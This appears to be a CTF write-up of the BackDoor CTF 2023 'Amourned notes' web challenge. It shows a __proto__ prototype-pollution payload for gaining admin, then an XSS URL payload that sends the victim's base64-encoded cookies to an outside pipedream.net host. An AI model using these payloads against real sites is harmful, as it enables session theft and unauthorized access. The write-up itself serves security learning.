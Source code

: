 ```yaml
---
author: ["FireLord"]
title: "Backdoor CTF 2023"
date : 2023-12-15T00:20:16+07:00
description: "Write up collection for BackDoor CTF 2023"
summary : "Challenge write ups for BackDoor CTF 2023" 
categories: ["ctf"]
ShowToc: true
TocOpen: true
cover : 
    image : ""
---
```



# Web/Amourned notes

For this challenge there is two parts . Figuring how to write a note as admin and then exploit an xss in vite (dependancy of the project) . Remember boys and gal always run npm audit

Below is the function on the server to create new user 

```js 
app.post("/create", async (req, res, next) => {
    let obj = duplicate(req.body);

    if (obj.uname === "admin" && obj.pass == process.env.PASSWORD) {
      obj.isAdmin = true;
    }
    if (obj.isAdmin) {
      const newEntry = req.body;
```
This is classic proton pollution . It happen in js when user input "__ proto__"
See more here . Lucky i remember this because there is "blade-runner" challenge from mapleCTF 2023 that has same challenge

So if you input this payload you can effectively create a note as admin

```js
"__proto__":{ 
"uname":"admin", "isAdmin": true 
}
,"pass":"Doe","message":"Your note...asd"}
```
With a quick look to the source code , we can see the flag is set in cookie so we will need to dump it . The question is how ???
``` js 
 // Set Flag
await page.setCookie({
	name: "flag",
	httpOnly: false,
	value: CONFIG.APPFLAG,
	url: CONFIG.APPURL
})

// Visit URL from user
console.log(`bot visiting ${urlToVisit}`);
await page.goto(urlToVisit, {
	waitUntil: 'networkidle2'
});
await new Promise(resolve => setTimeout(resolve, 5000));
It does filter all the sensitive possible thing from html input at '/posts'
const escapeHtmlReplaceMap = {
    '&': ';',
    "'": ';',
    '`': ';',
    '"': ';',
    '<': ';',
    '>': ';',
    "!":";",
    "_":";",
    "-":";",
    "*":";",
    "[":";",
    "{":";",
    "}":";",
    "|":";",
    "/":";",
    '"':";",
    '(':";",
    ')':";",
  }
  
  /**
   * @param {string} string
   * @returns {string}
   */
  export function escapeHtml(string) {
    return string.replace(/[&'`"<>]/g, (match) => escapeHtmlReplaceMap[match])
  }
```

npm audit command output

```bash
└─$ npm audit 

vite  4.4.0 - 4.4.11
Severity: moderate
Vite XSS vulnerability in `server.transformIndexHtml` via URL payload - https://github.com/advisories/GHSA-92r3-m2mg-pj97        
fix available via `npm audit fix`
node_modules/vite
1 moderate severity vulnerability
```
So `npm audit`  was able to id one vulnerbility . After reading the CVE POC .The payload need to input to admin /report

```
http://localhost:3000/posts/<code>/?"></script><script>window.location.href=`https://eno02ecudm9nm.x.pipedream.net/?cookie=${btoa(document.cookie) }` </script>
```

![H](image.png)